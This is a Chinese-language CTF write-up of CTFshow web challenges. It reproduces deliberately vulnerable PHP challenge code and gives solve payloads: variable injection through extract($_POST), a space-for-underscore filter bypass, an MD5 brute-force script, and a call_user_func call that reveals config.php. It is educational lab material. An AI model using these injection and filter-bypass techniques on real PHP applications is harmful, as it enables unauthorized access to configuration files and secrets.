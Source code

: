 ﻿---
title: CTFshow 大吉大利 web
categories: 赛题wp
---
## veryphp
<!--more-->

```bash
<?php
error_reporting(0);
highlight_file(__FILE__);
include("config.php");
class qwq
{
    function __wakeup(){
        die("Access Denied!");
    }
    static function oao(){
        show_source("config.php");
    }
}
$str = file_get_contents("php://input");
if(preg_match('/\`|\_|\.|%|\*|\~|\^|\'|\"|\;|\(|\)|\]|g|e|l|i|\//is',$str)){
    die("I am sorry but you have to leave.");
}else{
    extract($_POST);
}
if(isset($shaw_root)){
    if(preg_match('/^\-[a-e][^a-zA-Z0-8]<b>(.*)>{4}\D*?(abc.*?)p(hp)*\@R(s|r).$/', $shaw_root)&& strlen($shaw_root)===29){
        echo $hint;
    }else{
        echo "Almost there."."<br>";
    }
}else{
    echo "<br>"."Input correct parameters"."<br>";
    die();
}
if($ans===$SecretNumber){
    echo "<br>"."Congratulations!"."<br>";
    call_user_func($my_ans);
}

```

分析：
```

qwq类中有静态函数 可通过：：调用(call_user_func特性)
$str 被赋值为 通过 php://input 而 post传的输入
对$str 进行正则 即所有输入不能有 _(重要)

通过 extract将POST的变量导入到当前符号表
对$shaw_root正则且有长度限制 显示hint
如果$ans===$SecretNumber 调用函数 call_user_func

```

思路：
```
  通过post与extract来满足所需要的变量名
  先拿到 hint 再调用静态函数oao
```

解：

对$shaw_root正则：

```bash
if(preg_match('/^\-[a-e][^a-zA-Z0-8]<b>(.*)>{4}\D*?(abc.*?)p(hp)*\@R(s|r).$/', $shaw_root)
```

```
 ^ 就是表示开头，也就是开头 必须是 -
 \- 就是匹配 - 
 [a-e]  就是匹配a到e中任意一个字母
 [^a-zA-Z0-8] 匹配除了这些之外的一个东西。也就是9了
 <b> 就是匹配 <b>
 (.*) 就是匹配任意非换行符  0次或者任意多次
 >{4} 就是匹配>4次 也就是 >>>>
 \D*? 就是 匹配非数字的字符0次或者任意多次，但尽可能少重复
 (abc.*?) 就是匹配abc和任意字符，0次或者任意多次，但尽可能少重复。那就是0次了被，就是匹配abc了
 p 就是匹配p
 (hp)* 就是匹配 hp 0次或者更多次
 \@ 就是 表示匹配 @
 R 就是表示匹配 R
 (s|r). 就是表示 匹配s或者r
 . 就是表示匹配除了换行符以外的所有字符
 $ 就是表示，这是最后。也就是最后不能是换行符就好
```

[在线正则](https://regex101.com)

得：payload：
```
shaw root=-a9<b>11111111>>>>aabcphp@Rs1
（见ctfshow php特性  web123，%20,+,.,[  解析为_）
```

得到hint：

![](https://img-blog.csdnimg.cn/20210305154011813.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
```

md5("shaw".($SecretNumber)."root")==166b47a5cb1ca2431a0edfcef200684f && strlen($SecretNumber)===5

```

求得$SecretNumber 具体值：

```bash
<?php
	for($SecretNumber=10000;$SecretNumber<99999;$SecretNumber++){
		$str="shaw".$SecretNumber."root";
		if(md5($str)=="166b47a5cb1ca2431a0edfcef200684f"){
			echo $SecretNumber;
		}
	}
?>

```
$SecretNumber=21475  

Payload：ans=21475

接下来调用call_user_func
我们可以通过：：调用一个类中的静态方法

![](https://img-blog.csdnimg.cn/2021030515414430.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Payload：my ans=qwq::oao

okk

![](https://img-blog.csdnimg.cn/20210305154206974.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


---
## 有手就行

查看源码，转图片

![](https://img-blog.csdnimg.cn/20210305154406847.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

发现url可疑，改为flag ，查看源码，转图片：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210305154449902.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
[微信小程序逆向](https://www.cnblogs.com/yeahwell/p/13546770.html)


---
## spaceman

```bash
<?php 
error_reporting(0); 
highlight_file(__FILE__); 
class spaceman 
{ 
    public $username; 
    public $password; 
    public function __construct($username,$password) 
    { 
        $this->username = $username; 
        $this->password = $password; 
    } 
    public function __wakeup() 
    { 
        if($this->password==='ctfshowvip') 
        { 
            include("flag.php"); 
            echo $flag;     
        } 
        else 
        { 
            echo 'wrong password'; 
        } 
    } 
} 
function filter($string){ 
    return str_replace('ctfshowup','ctfshow',$string); 
} 
$str = file_get_contents("php://input"); 
if(preg_match('/\_|\.|\]|\[/is',$str)){             
    die("I am sorry but you have to leave."); 
}else{ 
    extract($_POST); 
} 
$ser = filter(serialize(new spaceman($user_name,$pass_word))); 
$test = unserialize($ser); 
?> wrong password

```
payload：user name=&pass word=ctfshowvip

空格 变为 `_`


---
## 虎山行(x)
![](https://img-blog.csdnimg.cn/2021030515493081.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


![](https://img-blog.csdnimg.cn/20210305154936154.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


![](https://img-blog.csdnimg.cn/20210305154941364.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

